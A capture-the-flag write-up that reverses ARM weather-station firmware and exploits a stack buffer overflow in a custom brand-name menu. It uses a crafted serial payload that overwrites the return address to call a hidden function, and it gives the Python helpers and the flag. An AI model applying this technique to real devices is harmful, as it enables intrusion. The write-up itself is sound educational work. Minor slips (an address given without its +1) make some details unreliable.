


# Ph0wn CTF: Weather station stage 3

**Category**: Exploit, **Points**: 300, **Solves**: 1

## Description

Now you can play with the OEM setup menu. Someone told me developers are eternal kids. They've include an easter egg when Winter Is Coming. Just found it in the firmware, find a way to call it and see what happen on screen.

Advice 1: The serial function is a little buggy, you should send your payload by packet of 16 bytes, and do a little 10ms pause, and then continue sending the next chunk.

Advice 2 : The firmware is provided in .elf and .bin format. It's the same version, it's up to you to use your preferred format, but a strong advice is to use the .elf file.

Advice 3: The function at @ 0x800CA88 is only here to hide the flag. Solve this task will never ask you to reverse this complex obfuscation function. If you do, you'll lose time and all the interest of the challenge.

To score this challenge please enter a flag in the form of `Ph0wn{xxxxx}`.

Author: Phil


## Write-up

### Testing brand menu

Once stage 2 is completed, we access a hidden OEM menu, where we can change temperature unit for the weather station, pressure unit, or the display name on the top of the screen.

```
************************
**** OEM Setup Menu ****
************************
-1- Setup Temperature Unit.
-2- Setup Pressure Unit.
-3- Setup Brand Name.
```

If we select `Setup Brand Name`, we end up into another menu:

```
**************************
**** Brand Name Setup ****
**************************

-1- eSAME manufacturer.
-2- Fortinet manufacturer.
-3- GreHack manufacturer.
-4- Custom

-0- Exit to main
```    

The first 3 choices setup a pre-defined manufacturer for the weather station. The last one is more interesting because we can customize the manufacturer's name.
The manufacturer's name is said to be limited to 8 characters, but if we enter more we crash the weather station:

```
Enter a new manufacturer name (MAX 8 chars !) : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
***      CRASH      ***
SP = 0x20017e87
*** Program Stopped ***
```

Exactly, the crash occurs as soon as we enter the 37th `a`. We get the address of the Stack Pointer. So, probably, we overwrote part of the stack with our `a`. This is something to exploit.

### Reversing brand menu

Let's have a look at the function that gets the manufacturer's name.

We locate the string `Enter a new manufacturer name (MAX 8 chars !) `

```
[0x0800f520]> f~manu
0x08015cd0 115 str._1__eSAME_manufacturer._r_n_2__Fortinet_manufacturer._r_n_3__GreHack_manufacturer._r_n_4__Custom._r_n_r_n_0__Exit_to_main._r_n
0x08015d44 51 str._r_nEnter_a_new_manufacturer_name__MAX_8_chars____:
0x08015cd0 114 str._1__eSAME_manufacturer.___2__Fortinet_manufacturer.___3__GreHack_manufacturer.___4__Custom._____0__Exit_to_main.
0x08015d44 50 str.Enter_a_new_manufacturer_name__MAX_8_chars____:
```

It is used by `0x800d8f8`, which is inside a function starting at `0x0800d8bc`:

```
[0x0800f520]> axt str.Enter_a_new_manufacturer_name__MAX_8_chars____:
(nofunc) 0x800da10 [null] ldrb r4, [r0, r5]
(nofunc) 0x800d8f8 [data] ldr r5, str._r_nEnter_a_new_manufacturer_name__MAX_8_chars____:
...
[0x0800f520]> s 0x800d8f8
[0x0800d8f8]> pd 20
            0x0800d8f8      454d           ldr r5, str._r_nEnter_a_new_manufacturer_name__MAX_8_chars____: ; [0x8015d44:4]=0x6e450a0d ; "\r\nEnter a new manufacturer name (MAX 8 chars !) : "
            0x0800d8fa      0fcd           ldm r5!, {r0, r1, r2, r3}
```

Basically, this is how the function works:



1. It reads selection for brand menu (between 0 and 4)
2. In the case we select 4 (custom brand), it reads the custom name character by character, waiting for a 0x0D character (carriage return).  This is incorrect because we can specify far more than 8 characters...
3. It sets the brand name

### Winter function

The challenge description mentions `Winter Is Coming`. This string is located at `0x08015e54` and it is used in function `fcn.0800dfe0`

```
[0x0800f520]> f~Winter
0x08015e54 19 str.Winter_Is_Coming
[0x0800f520]> axt 0x08015e54
fcn.0800dfe0 0x800e032 [data] ldr r0, str.Winter_Is_Coming
```

So, we want to craft a long custom brand name, which will overwrite the stack, and in particular LR, so that when we return from brand name setup, we jump to `fcn.0800dfe0`.

### Writing a program that pilots the weather station

We need to:

1. Connect to the weather station's serial port
2. Unlock the OEM menu by specifying the password we found at stage 2
3. Select the brand menu
4. Select the setup of a custom brand name
5. Enter a special custom brand name (exploit)
6. Return from the function

We implement a program to do this.
To connect to the weather station's serial port, we import `serial` and specify the connection setup:

```python

ser = serial.Serial(
    port='/dev/ttyUSB0',
    baudrate=19200,
    timeout=3 # wait up to 3 seconds to read info
)

ser.isOpen()
```

Then, basically, we need to read data from the serial port. I implemented a function that reads characters from the serial port until it reaches a given keyword. For instance, when we read the keyword 'Password:' we know it is time to provide the password found at stage 3.

```python
def readUntil(keywords, debug=False):
    '''Read until we find one of the keywords, 
    Then we print what we got, stop reading, and return the message
    
    keywords is a list of words: [ 'Password' ]
    '''
    out = ''
    while True:
        c = ser.read(1)
        out = out + c
        if debug:
            print c
        for keyword in keywords:
            if keyword in out:
                print out
                print '[+] Located %s ' % (keyword)
                return out, keyword
        if ser.inWaiting() <= 0:
            print '[-] Sleeping 1 sec'
            time.sleep(1)
```

We also need to write back to the serial connection. As mentioned in the description, it can be a bit buggy, we need not to write too fast.

```python
def writeNotTooQuick(message, timeout=0.2, debug=False):
    for i in range(0, len(message)):
        ser.write(message[i])
        if debug:
            print "[+] writing: %s" % (message[i])
        time.sleep(timeout)
```

Using both `readUntil` and `writeNotTooQuick`, we make our way to the point where we need to enter the custom brand name. That's the point where we need to craft the right brand name.

#### Crafting the exploit

We know that the weather station crashes on the 37th character - point where we have overwritten the Stack Pointer. In ARM architectures, the Link Register (which carries the return address to go to) is before the SP.
We could compute exactly the right buffer to send, but we're going to try several buffers until we succeed. The idea is to send a buffer containing:

`XXXXXXXXXXXXXADDR\r`

where X is whatever we wish (the first 8 characters will be displayed as brand name on the weather station), and ADDR is the 4 byte address to jump to and `\r` is carriage return (mandatory to mention we've finished entering the brand name).

We want to jump to a function at `0x0800dfe0`. In Thumb mode, we have to jump to that address + 1: `0x0800dfe0`. So, the buffer will end with `\xe1\xdf\x00\x08` and `\x0d`.

My program sends precisely `OVERFLOWaaaaa...aaa\xe1\xdf\x00\x08\r` where the number of `a` is configurable.
If the number of `a` is really to short, this does nothing.
If the number of `a` is getting closer or badly aligned, we overwrite part of the stack, but don't jump to the function we want to.
When the number of `a` is just fine (16), we trigger the call to the winter is coming function.



The flag is `Ph0wn{P0werOfSt@ckSmashing}`

## Other write-ups and resources

Resources:
- [Smashing the ARM stack](https://www.merckedsecurity.com/blog/smashing-the-arm-stack-part-1)
- [ARM subroutines & program stack](http://www.toves.org/books/armsub/)


